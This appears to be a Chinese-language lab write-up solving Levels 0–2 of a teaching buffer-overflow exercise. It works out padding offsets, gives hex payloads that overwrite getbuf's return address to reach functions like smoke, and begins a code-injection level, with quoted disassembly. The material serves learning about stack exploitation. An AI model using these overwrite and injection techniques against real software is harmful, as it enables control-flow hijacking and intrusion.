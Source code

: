 在test的第三行，我发现ebp往下扩展了40字节的空间，再加上返回地址位于4（%ebp），因此我应该插入44个无意义的占位字节，然后把smoke的地址用小端方式写到后面。

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 6b 8b 04 08
```



### Level 1

```assembly
08048b6b <smoke>:
 8048b6b:	55                   	push   %ebp
 8048b6c:	89 e5                	mov    %esp,%ebp
 8048b6e:	83 ec 08             	sub    $0x8,%esp
 8048b71:	83 ec 0c             	sub    $0xc,%esp
 8048b74:	68 e0 a2 04 08       	push   $0x804a2e0
 8048b79:	e8 92 fd ff ff       	call   8048910 <puts@plt>
 8048b7e:	83 c4 10             	add    $0x10,%esp
 8048b81:	83 ec 0c             	sub    $0xc,%esp
 8048b84:	6a 00                	push   $0x0
 8048b86:	e8 ec 08 00 00       	call   8049477 <validate>
 8048b8b:	83 c4 10             	add    $0x10,%esp
 8048b8e:	83 ec 0c             	sub    $0xc,%esp
 8048b91:	6a 00                	push   $0x0
 8048b93:	e8 88 fd ff ff       	call   8048920 <exit@plt>
```

本题和level0很类似，唯一不同的点就是函数的传参。因为数据对齐的规则，这里不是直接把我的cookie放到后面，而是又加了4个字节的00。

```assembly
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 98 8b 04 08
00 00 00 00 cb 90 a8 58
```



### Level 2

在getbuf的输入里面插入一段代码，然后通过缓冲区溢出来跳转到这段代码，从而执行，最后再返回到bang。

在bang里面找到global_val的地址`0x804e140`

```assembly
08048be9 <bang>:
 8048be9:	55                   	push   %ebp
 8048bea:	89 e5                	mov    %esp,%ebp
 8048bec:	83 ec 08             	sub    $0x8,%esp
 8048bef:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048bf4:	89 c2                	mov    %eax,%edx
 8048bf6:	a1 38 e1 04 08       	mov    0x804e138,%eax
 8048bfb:	39 c2                	cmp    %eax,%edx
 8048bfd:	75 25                	jne    8048c24 <bang+0x3b>
 8048bff:	a1 40 e1 04 08       	mov    0x804e140,%eax
 8048c04:	83 ec 08             	sub    $0x8,%esp
 8048c07:	50                   	push   %eax
 8048c08:	68 3c a3 04 08       	push   $0x804a33c
 8048c0d:	e8 2e fc ff ff       	call   8048840 <printf@plt>
 8048c12:	83 c4 10             	add    $0x10,%esp
```